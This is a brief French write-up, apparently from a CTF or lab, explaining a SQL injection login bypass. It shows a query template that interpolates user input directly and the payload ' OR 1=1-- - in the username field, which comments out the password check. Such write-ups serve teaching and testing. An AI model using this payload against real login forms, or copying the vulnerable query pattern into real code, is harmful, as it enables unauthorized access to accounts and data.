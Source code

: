# SQLi

Le seul champ injectable est le champs "login". Une injection SQL est présente !

```sql
SELECT uid FROM users WHERE username='{rq_username}' and password='{rq_passwd}';
```

Ainsi si on entre le nom d'utilisateur `jean` et le mot de passe `jeanjean2010`, on obtient la requête SQL suivante :
```sql
SELECT uid FROM users WHERE username='jean' and password='jeanjean2010';
```

Ainsi en insérant `' OR 1=1-- -` dans le champs username, on obtient :

```sql
SELECT uid FROM users WHERE username='' OR 1=1-- -' and password='jeanjean2010';
```

La condition `1=1` étant vraie et le mot de passe étant ignoré car `-- -` indique que tout ce qui suit sera mit en commentaire, la condition entière devient vraie et la requête nous renvoie un uid. Ainsi la requête exécutée est équivalente à :

```sql
SELECT uid FROM users;
```
